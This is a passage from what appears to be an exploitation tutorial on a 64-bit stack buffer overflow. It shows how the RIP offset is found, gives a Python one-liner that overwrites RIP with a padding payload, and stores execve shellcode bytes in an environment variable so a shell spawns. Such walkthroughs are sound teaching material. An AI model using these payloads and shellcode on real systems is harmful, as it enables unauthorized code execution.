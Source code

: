 The RIP offset as we've just identified is `104`. Let's test it by generating a new garbage file that will now contain 104 `A` and a canonical return address `0x0000414141414141` (in reverse due to little-endianness):

```python
python -c "print 'A'*104 + '\x41\x41\x41\x41\x41\x41\x00\x00'" > in.bin
```

Sending this data to the vulnerable program reveals that we have now taken control of the RIP register (lime):

![We can now control RIP as it points to 0x0000414141414141](<../../../.gitbook/assets/image (888).png>)

## Exploitation

We'd like the vulnerable program to spawn a shell for us when exploited, so we will place the [shellcode](http://shell-storm.org/shellcode/files/shellcode-806.php) in the environment variable `PWN`, so it ends up in the vulnerable program's stack when it's executed, like so:

```python
export PWN=`python -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`
```
